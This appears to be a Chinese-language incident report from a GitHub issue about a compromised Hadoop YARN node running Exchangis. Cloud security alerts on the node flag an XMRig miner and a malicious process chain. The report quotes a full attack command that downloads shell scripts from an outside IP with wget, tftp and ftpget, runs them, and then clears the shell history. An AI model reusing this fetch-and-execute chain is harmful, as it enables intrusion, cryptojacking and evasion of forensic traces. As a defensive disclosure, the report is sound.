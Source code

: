 
## 分析报告

https://s.threatbook.cn/report/file/12355637741a7f2ddcd56d75892fc28a9c5f6d9bd4a210bd52077ba7d119a882/?sign=history&env=centos_7_x64




# 挖矿

恶意软件-挖矿程序待处理
备注
该告警由如下引擎检测发现：
文件路径: /data/dep/exchangis/myexchangis/wedatasphere-exchangis-0.5.0.RELEASE/modules/exchangis-eureka/conf/dysdtz/kthreaddk
恶意文件md5: 6db4f74c02570917e087c06ce32a99f5
检测方式: 云查杀
进程id: 4300
进程命令行: N/A
文件创建用户: yarn
文件创建时间: 2021-12-03 16:39:17
文件修改时间: 2021-12-03 16:39:17
样本家族与特征: Miner,XMRig
描述: 通常黑客入侵后会植入挖矿程序赚取收益，该类程序占用CPU等资源，影响用户正常业务，危害较大。且该程序可能还存在自删除行为，或伪装成系统程序以躲避检测。如果发现该文件不存在，请检查是否存在可疑进程、定时任务或启动项。具体详情可查看帮助：https://helpcdn.aliyun.com/knowledge_detail/41206.html



# fuze.sh

恶意脚本-恶意脚本代码执行待处理
备注
该告警由如下引擎检测发现：
命令行: wget http://185.177.57.45/fuze.sh
进程PID: 8607
进程文件名: wget
父进程ID: 8605
父进程: bash
父进程文件路径: /usr/bin/bash
进程链:
-[1059]  /usr/bin/python2 /opt/cloudera/cm-agent/bin/../bin/supervisord -n
    -[19561]  /usr/bin/python2 /opt/cloudera/cm-agent/bin/cm proc_watcher 19588
        -[19588]  /usr/lib/jvm/jre-openjdk/bin/java -Dproc_nodemanager -Djava.net.preferIPv4Stack=true -Xms541065216 -Xmx541065216 -XX:+UseParNewGC -XX:+UseConcMarkSweepGC -XX:CMSInitiatingOccupancyFraction=70 -XX:+CMSParallelRemarkEnabled -Dlibrary.leveldbjni.path=/var/run/cloudera-scm-agent/process/567-yarn-NODEMANAGER -Dhadoop.event.appender=,EventCatcher -XX:+HeapDumpOnOutOfMemoryError -XX:HeapDumpPath=/tmp/yarn_yarn-NODEMANAGER-6c773f43a0750daf6093d51f4d8a46e2_pid19588.hprof -XX:OnOutOfMemoryError=/opt/cloudera/cm-agent/service/common/killparent.sh -Dyarn.log.dir=/var/log/hadoop-yarn -Dyarn.log.file=hadoop-cmf-yarn-NODEMANAGER-cdh03.com.log.out -Dyarn.home.dir=/opt/cloudera/parcels/CDH-6.3.2-1.cdh6.3.2.p0.1605554/lib/hadoop-yarn -Dyarn.root.logger=INFO,RFA -Djava.library.path=/opt/cloudera/parcels/CDH-6.3.2-1.cdh6.3.2.p0.1605554/lib/hadoop/lib/native -Dhadoop.log.dir=/var/log/hadoop-yarn -Dhadoop.log.file=hadoop-cmf-yarn-NODEMANAGER-cdh03.com.log.out -Dhadoop.home.dir=/opt/cloudera/parcels/CDH-6.3.2-1.cdh6.3.2.p0.1605554/lib/hadoop -Dhadoop.id.str=yarn -Dhadoop.root.logger=INFO,RFA -Dhadoop.policy.file=hadoop-policy.xml -Dhadoop.security.logger=INFO,NullAppender org.apache.hadoop.yarn.server.nodemanager.NodeManager
            -[8602]  bash /yarn/nm/usercache/dr.who/appcache/application_1635840259220_0020/container_1635840259220_0020_01_000001/default_container_executor.sh
                -[8605]  /bin/bash -c cd /tmp;wget http://185.177.57.45/fuze.sh; chmod 777 fuze.sh; sh fuze.sh; tftp 185.177.57.45 -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; tftp -r tftp2.sh -g 185.177.57.45; chmod 777 tftp2.sh; sh tftp2.sh; ftpget -v -u anonymous -p anonymous -P 21 185.177.57.45 ftp1.sh ftp1.sh; sh ftp1.sh tftp1.sh tftp2.sh ftp1.sh;clear;history -c; clear;history -w
